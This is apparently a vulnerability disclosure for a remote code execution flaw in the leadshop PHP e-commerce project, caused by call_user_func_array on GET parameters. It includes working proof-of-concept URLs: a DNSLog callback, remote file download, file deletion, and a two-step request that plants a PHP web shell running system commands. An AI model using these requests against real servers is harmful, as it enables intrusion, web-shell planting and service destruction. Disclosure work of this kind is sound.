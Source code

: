 
There is an RCE vulnerability in qmpaas/leadshop(https://github.com/qmpaas/leadshop )
-
Description
-
There is an RCE vulnerability in qmpaas/leadshop (https://github.com/qmpaas/leadshop) (v1.4.15). An attacker can access the file leadshop.php and call any existing function through GET to control the target host.  
The vulnerability is in the leadshop/web/leadshop.php[27-61] file  
（https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L27 ）
  ```shell script
 public function run()  
    {  
        $include = isset($_GET['include']) ? $_GET['include'] : "";  
        $data    = isset($_GET['data']) ? $_GET['data'] : "";  
        $meta    = isset($_GET['meta']) ? $_GET['meta'] : "";  
        if ($include) {  
            return call_user_func_array([$this, $include], [$meta, $data]);  
……
```
The `call_user_func_array` function is used directly, and $include, $data, and $meta receive get parameters, which allows us to run all functions in this file (parameters less than or equal to 2), such as:  
HttpGet (http access: poc: `https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn`),  
ToMkdir (Create a file with content 1 and file name 1: poc: `https://demo.leadshop.vip/leadshop.php?include=ToMkdir&meta=1&data=1`),  
UpdateSql (perform database update: poc: `https://demo.leadshop.vip/leadshop.php?include=UpdateSql`),  
DownloadFile (download file: poc: 
`https://demo.leadshop.vip/leadshop.php?include=DownloadFile&meta=www.baidu.com/img/flexible/logo/pc/peak-result.png`),  
RemoveDir (remove directory: poc: 
`https://demo.leadshop.vip/leadshop.php?include=RemoveDir&meta=[path]`)  
-
Proof of Concept:
-
Poc：
(This url is applied from DNSLog(http://dnslog.cn/) in advance. Click "Get SubDomain", access the poc, and click "Refresh Record" to Refresh.)  
  ```shell script
https://demo.leadshop.vip/leadshop.php?include=HttpGet&meta=6nup69.dnslog.cn  
```
DNSLog picture:  
![img](DNSLog.png)

  ```shell script
http://example.org/leadshop.php?include=ToMkdir&meta=orobos.php&data=1
```
file picture:  
![img](tomkdir.PNG)

step 1:
  ```shell script
http://192.168.24.129/leadshop.php?include=ToMkdir&meta=/web/orobos.php&data=%3C?php%20system(%27ls%27)%20?%3E
```
step 2:
  ```shell script
http://192.168.24.129/orobos.php
```
![img](upload_trojans.PNG)
-
Impact
-
Attackers can call any existing functions at will, control the target server to access, download, create files, delete files, etc.  
Access may make the server a dos server.  
Download, so that an attacker can download the PHP Trojan to the server.  
Creating and deleting will destroy normal services.  
More than ten IPs are using this service(Fofa Search:"Powered By Leadshop © 2021").  
-
Occurrences
-
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L27
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L35
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L103
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L304
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L328
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L349
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L395
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L444
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L477
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L495
https://github.com/qmpaas/leadshop/blob/42de4233357671b96b18f8c8b2f1d7a74a809755/web/leadshop.php#L509
